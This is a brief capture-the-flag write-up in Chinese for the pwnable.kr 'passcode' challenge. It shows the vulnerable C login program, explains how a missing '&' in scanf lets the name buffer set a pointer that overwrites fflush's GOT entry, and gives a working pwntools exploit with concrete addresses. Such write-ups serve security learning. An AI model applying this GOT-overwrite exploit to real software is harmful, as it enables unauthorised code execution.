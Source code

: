 ```c
#include <stdio.h>
#include <stdlib.h>
void login(){
	int passcode1;
	int passcode2;
	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);
	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);
	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");
	welcome();
	login();
	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

login()裡面的`scanf("%d", passcode1);`沒有用`&`字號

然後passcode1跟name的位置差96bytes

所以我們可以把4bytes位置塞到passcode1裡面

然後在scanf那邊在輸入我們要的值

於是把頭腦動到`fflush(stdin)`的GOT位置(0x0804a000)

然後在scanf那邊輸入`system("/bin/cat flag")`的指令位置(0x080485E3)

exploit: 
```python
from pwn import *
r = ssh(host='pwnable.kr',user='passcode',password='guest',port=2222).process("./passcode")
# r = process('./passcode')
print r.recv()
r.sendline('a'*96+p32(0x0804a000))
print r.recv()
r.sendline(str(0x080485E3))
print r.recv()
```
